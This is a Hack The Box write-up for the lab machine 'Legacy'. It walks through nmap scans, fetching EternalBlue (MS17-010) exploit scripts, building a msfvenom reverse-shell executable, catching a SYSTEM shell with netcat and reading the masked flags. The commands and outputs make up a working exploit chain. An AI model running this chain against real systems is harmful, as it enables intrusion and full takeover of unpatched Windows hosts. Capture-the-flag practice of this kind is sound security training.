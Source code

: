 ```yaml
---
title: Hack The Box - Legacy (Without Metasploit)
date: 2021-01-12 14:00:00 +0800
categories: [hackthebox]
tags: [windows, eternalblue]
---
```


![](/assets/images/legacy.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:13 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.010s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m51s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:87:21 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-10T12:13:27+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.34 seconds
```

# Enumeration (1)

## Port 445 `Windows XP microsoft-ds`

If we use the `smb-vuln-*` scripts of `nmap`, we see that it has some vulnerabilities.

```bash
$ nmap -Pn -p 445 --script smb-vuln-* legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:17 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.013s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

# Exploitation (1)

Out of these 2 vulnerabilties, I will be picking `CVE-2017-0143`, or better known as `EternalBlue`. `Metasploit` has modules that exploit this vulnerability but I will be using some scripts that I found on Github that are able to do the same job.

```bash
$ mkdir eternalblue
$ curl https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py > eternalblue/send_and_execute.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py > eternalblue/mysmb.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/checker.py > eternalblue/checker.py
```

Exploiting `EternalBlue` requires us to find an accessible named pipe, so lets run `checker.py`.

```bash
$ python checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

It seems there are 2 named pipes we can use and note that the machine is `32-bit`. Now we just need to prepare an executable that establishes a reverse shell connection back to us when executed. We can use msfvenom for this.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Now that is done, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then finally we can exploit the vulnerability with `send_and_execute.py` and specifying our executable and the name of the named pipe we want to use.

```bash
$ python send_and_execute.py legacy.htb reverse.exe 445 browser 
Trying to connect to legacy.htb:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8230d230
SESSION: 0xe16bcf58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe16beb90
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe16bec30
overwriting token UserAndGroups
Sending file GC726C.exe...
Opening SVCManager on legacy.htb.....
Creating service nrNL.....
Starting service nrNL.....
The NETBIOS connection with the remote host timed out.
Removing service nrNL.....
ServiceExec Error on: legacy.htb
nca_s_proto_error
Done
```

On our listener that we setup beforehand, we receive a connection.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Unfortunately there is no `whoami.exe` but we can run `SMB` server using `smbserver.py` from [`impacket`](https://github.com/SecureAuthCorp/impacket) and share a copy of `whoami.exe` which we can retrieve from `/usr/share/windows-resources/binaries/`.

```bash
$ cd /usr/share/windows-resources/binaries/
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then from the shell we got, we can do this to verify the current user.

```
C:\WINDOWS\system32> \\10.10.XX.XX\kali\whoami.exe
NT AUTHORITY\SYSTEM
```

Alright, we got `SYSTEM`!

# user.txt

The user flag is located at the home directory of `john`.

```
C:\Documents and Settings\john\Desktop> type user.txt
e69aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at the home directory of `Administrator`, as always.

```
C:\Documents and Settings\Administrator\Desktop> type root.txt
9934XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !